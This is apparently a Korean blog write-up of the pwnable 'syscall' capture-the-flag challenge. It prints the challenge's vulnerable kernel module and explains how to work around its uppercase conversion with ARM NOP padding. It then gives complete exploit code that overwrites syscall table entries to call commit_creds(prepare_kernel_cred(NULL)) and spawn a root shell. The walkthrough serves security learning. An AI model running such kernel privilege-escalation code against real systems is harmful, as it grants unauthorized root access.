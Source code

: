 ```yaml
---
title: "[pwnable] syscall"
date: 2025-02-24 07:10:00 +0900
categories: [pwnable]
tags: [pwnable]
description: pwnable, system hack
---
```


## syscall
#### 문제 환경
![alt text](assets/img/syscall/image-1.png)
처음 ssh를 접속 하면 부트 로그가 나오며, exit을 할 시 환경이 qemu임을 알 수 있었습니다.

### 시스템콜 (sys_upper)
``` c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );

```
input으로 전달받은 문자열에 대해 각 캐릭터가 알파벳 소문자(a-z)의 경우 대문자로 변경하는 시스템콜입니다.

#### tmp 디렉토리
![alt text](assets/img/syscall/image-3.png)
tmp 디렉토리에서 파일 쓰기 및 gcc 컴파일 가능한 것 확인

> 시스템콜을 활용한 c 프로그래밍으로 문제를 해결해야 할 것으로 예상

#### 커널 버전 확인
![alt text](assets/img/syscall/image-2.png)
커널 버전이 3.11이어서 루트킷을 만들 때 사용하려 했던 kallsyms를 사용가능할 것으로 예상하였습니다.
![alt text](assets/img/syscall/image-4.png)
kallsyms 헤더파일이 존재하지 않았습니다.

#### /proc/kallsyms 확인
![alt text](assets/img/syscall/image-6.png)

### 커널 권한 상승 함수
`commit_creds(prepare_kernel_cred(NULL));` 을 호출하면 현재 프로세스의 권한이 루트로 변경됩니다.

* commit_creds : `0x8003f56c`
* prepare_kernel_cred : `0x8003f924`

### exploit 작성
`commit_creds` 함수 마지막의 `0x6c` 는 sys_upper함수에서 알파벳 소문자로 판단되어 `0x20`을 빼게 됩니다. 이를 우회하기 위해 0x8003f560을 chmod 시스템콜의 위치에 덮어씌우고, 0x8003f560에서 12바이트를 nop으로 덮어씌웁니다.   

![alt text](assets/img/syscall/image-14.png)
arm 아키텍쳐에서 nop 명령어는 `mov r0, r0` 등으로 구현할 수 있습니다.
`mov r1, r1`의 opcode는 `0xe1a01001` 입니다.

```c
#include <unistd.h>
#include <sys/syscall.h>

#define SYS_upper 223

unsigned long** SYS_CALL_TABLE = 0x8000e348;

int main() {
  syscall(SYS_upper, "\xe1\xa0\x10\x01\xe1\xa0\x10\x01\xe1\xa0\x10\x01", 0x8003f560); // nop

  syscall(SYS_upper, "\x60\xf5\x03\x80", &SYS_CALL_TABLE[__NR_chmod]);
  syscall(SYS_upper, "\x24\xf9\x03\x80", &SYS_CALL_TABLE[__NR_chown]);
  
  syscall(__NR_chmod, syscall(__NR_chown, NULL));

  system("/bin/sh");
  
  return 0;
}
```

<!-- ```c
#include <unistd.h>
#include <sys/syscall.h>

#define SYS_upper 223

unsigned long** SYS_CALL_TABLE = 0x8000e348;

int main() {
  syscall(SYS_upper, "\x00\xf0\x20\xe3\x00\xf0\x20\xe3\x00\xf0\x20\xe3", 0x8003f560); // nop

  syscall(SYS_upper, "\x60\xf5\x03\x80", &SYS_CALL_TABLE[__NR_chmod]);
  syscall(SYS_upper, "\x24\xf9\x03\x80", &SYS_CALL_TABLE[__NR_chown]);
  
  syscall(__NR_chmod, syscall(__NR_chown, NULL));

  system("/bin/sh");
  
  return 0;
}
``` -->

![alt text](assets/img/syscall/image-13.png)


